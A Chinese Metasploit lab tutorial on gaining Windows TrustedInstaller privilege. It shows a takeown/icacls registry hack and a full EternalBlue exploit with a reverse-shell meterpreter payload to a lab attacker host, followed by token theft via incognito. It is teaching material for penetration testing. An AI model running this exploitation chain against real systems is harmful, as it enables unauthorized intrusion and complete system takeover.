





[Metasploit]-7-如何获得Windows最高TrustedInstaller权限
引言
说到Windows权限，可能很多人都知道Administrator是"系统管理员"，其实在这之上，还存在一个"SYSTEM"权限，俗称"系统权限"，但Windows最高级的权限并非"系统权限"，而是一个叫做"TrustedInstaller"的隐藏权限，拥有这种权限的进程，能够在系统运行过程中，任意更改删除系统盘下所有文件，"TrustedInstaller"权限拥有对系统的"完全控制"权。
文章目录
- 0×1.TrustedInstaller权限介绍
- 0×2.如何通过图形界面获得Windows系统TrustedInstaller权限
- 0×3.如何通过注册表获得Windows系统TrustedInstaller权限
- 0×4.如何通过Metasploit获得Windows系统TrustedInstaller权限
0×1.TrustedInstaller权限介绍
在Win7之后的Windows系统中，微软公司对系统部分目录权限做了调整，在WinXP下最高级的"SYSTEM"权限，在Win7系统中对系统分区中部分特殊目录也仅仅只有"读取与执行"的权限，下面以系统盘中Windows目录下的文件举例。
如下图所示，在系统盘Windows目录中"wirte.exe"写字板程序，查看文件属性，发现除了"TrustedInstaller"这个虚拟组，其它三个组对文件的权限全部只有"读写与执行"，并且这些文件的所有者，全部是"TrustedInstaller"：
笔者登录系统所用账户为"Administrator"，我们尝试着重命名一下这个文件，发现被系统阻止，弹出如下对话框，提示"您需要TrustedInstaller提供的权限才能对此文件进行更改"：
然后笔者尝试使用管理员权限的cmd，使用"move"命令去更改这个文件的名称，提示"拒绝访问"：
C:\Users\Administrator>cd \ C:\>cd windows C:\Windows>move write.exe qingsword.com.exe 拒绝访问。 移动了 0 个文件。
由此可以看出，只有"TrustedInstaller"权限，才具有对系统的完全控制权，相当于Linux中的root权限。
0×2.如何通过图形界面获得Windows系统TrustedInstaller权限
对于这些"TrustedInstaller"才有完整控制权限的文件，其文件的"所有者"也是"TrustedInstaller"：
知道了这点，实际上在图形界面下，获得单个文件的完全控制权十分简单，要获得这个文件的最高控制权，实际上只需要将文件所有者替换成我们当前用户（普通用户能否替换文件所有者没有测试过，本文使用Administrator权限替换所有者，测试通过），然后将文件控制属性"完全控制"勾选即可：
依次打开->文件属性->安全->高级->所有者->编辑->选择"Administrator"账户->确定
更改了文件"所有者"后，回到文件属性窗口，编辑文件属性，将Administrator权限下面"完全控制"勾选上，现在，我们对这个文件就拥有了完全控制权：
使用上面这种方法，如果我们想获得十几个文件的完全控制权，需要一个个去更改，十分麻烦，那么就可以使用下面的方法，通过注册表的方式来获得系统TrustedInstaller权限。
0×3.如何通过注册表获得Windows系统TrustedInstaller权限
打开一个记事本，将下面这段注册表命令复制进去，然后保存成.reg后缀的文件，之后双击导入，[点击这里]查看复制注册表代码：
Windows Registry Editor Version 5.00 [HKEY_CLASSES_ROOT\*\shell\runas] @="获取TrustedInstaller权限" [HKEY_CLASSES_ROOT\*\shell\runas\command] @="cmd.exe /c takeown /f \"%1\" && icacls \"%1\" /grant administrators:F" "IsolatedCommand"="cmd.exe /c takeown /f \"%1\" && icacls \"%1\" /grant administrators:F" [HKEY_CLASSES_ROOT\Directory\shell\runas] @="获取TrustedInstaller权限" "NoWorkingDirectory"="" [HKEY_CLASSES_ROOT\Directory\shell\runas\command] @="cmd.exe /c takeown /f \"%1\" /r /d y && icacls \"%1\" /grant administrators:F /t" "IsolatedCommand"="cmd.exe /c takeown /f \"%1\" /r /d y && icacls \"%1\" /grant administrators:F /t"
导入之后，在鼠标右键菜单中就会多出一个"获取TrustedInstaller权限"的选项，我们只需要对想获取"TrustedInstaller"权限的文件夹右击，点击此选项即可让这个文件夹包括下面的所有文件，全部获取到"TrustedInstaller"权限（慎用）。
0×4.如何通过Metasploit获得Windows系统TrustedInstaller权限
这一小节才是本文的重点，在第九篇文章中会介绍到Payload的生成与替换，就会使用到本小节中的内容，在上面的实例中已经演示了如何使用图形化界面来获取系统TrustedInstaller权限，这一节将结合Metasploit来实现TrustedInstaller权限的获取。
思路是这样的，首先我们通过"永恒之蓝"漏洞，获取目标靶机的Meterpreter ShellCode，然后利用系统shell，使用sc命令启动系统"Windows Modules Installer"服务，此服务启动后，会执行一个"TrustedInstaller.exe"程序，此程序本身就具有TrustedInstaller权限，最后在msf中利用incognito模块，窃取"TrustedInstaller.exe"程序的Token（Token在系统中，相当于一个权限令牌，不同程序进程都具有不同的Token权限，窃取了哪个程序的Token，就具有那个程序对应的权限）。
实验环境如下：
×攻击主机 Kali 192.168.80.158
×目标靶机 Windows2008 x64 192.168.80.139
#首先，使用"永恒之蓝"漏洞获取目标靶机的Meterpreter ShellCode root@qingsword.com:~# msfdb run msf > use exploit/windows/smb/ms17_010_eternalblue msf exploit(windows/smb/ms17_010_eternalblue) > set rhost 192.168.80.139 rhost => 192.168.80.139 msf exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp payload => windows/x64/meterpreter/reverse_tcp msf exploit(windows/smb/ms17_010_eternalblue) > set lhost 192.168.80.158 lhost => 192.168.80.158 msf exploit(windows/smb/ms17_010_eternalblue) > set lport 9876 lport => 9876 msf exploit(windows/smb/ms17_010_eternalblue) > exploit meterpreter > #加载incognito模块 meterpreter > load incognito Loading extension incognito Success #做个小实验，查看当前权限为SYSTEM，利用incognito模块来窃取普通用户的token权限，让Meterpreter ShellCode降权成为普通用户 #先查看下当前权限，是SYSTEM meterpreter > getuid Server username: NT AUTHORITY\SYSTEM #查看一下系统当前进程列表，在列表这种发现几个普通用户的进程，拿explorer.exe进程来举例，它拥有于Administrator用户权限 meterpreter > ps 2432 1236 explorer.exe x64 WIN-9PV48KN2GGU\Administrator #窃取explorer.exe进程token meterpreter > steal_token 2432 Stolen token with username: WIN-9PV48KN2GGU\Administrator #发现当前ShellCode变成了Administrator权限，这个权限就是我们从explorer.exe窃取到的 meterpreter > getuid Server username: WIN-9PV48KN2GGU\Administrator #返回之前的SYSTEM权限 meterpreter > drop_token Relinquished token, now running as: WIN-9PV48KN2GGU\Administrator meterpreter > getuid Server username: NT AUTHORITY\SYSTEM #进入系统shell，启动"Windows Modules Installer"服务 meterpreter > shell C:\Windows\system32>sc start trustedinstaller #退出系统shell，找到TrustedInstaller.exe程序PID，窃取TrustedInstaller.exe的token权限 C:\Windows\system32>exit meterpreter > ps 448 492 TrustedInstaller.exe x64 #在这里，msf虽然显示我们窃取的token是SYSTEM权限的，实际上我们已经具备了TrustedInstaller权限 meterpreter > steal_token 448 Stolen token with username: NT AUTHORITY\SYSTEM #再次进入系统shell meterpreter > shell #使用下面的命令来确定，如果输出中包含"NT SERVICE\TrustedInstaller"，说明我们窃取token成功了 C:\Windows\system32>whoami /groups | findstr TrustedInstaller NT SERVICE\TrustedInstaller #尝试着更改一下系统目录下所有者是"TrustedInstaller"的程序文件名 C:\Windows\system32>move osk.exe osk.bk 成功 C:\Windows\system32>move osk.bk osk.exe 成功
对文中文字实例不是很明白的朋友，可以[点击这里][提取码 12j3]下载文章配套小视频观看。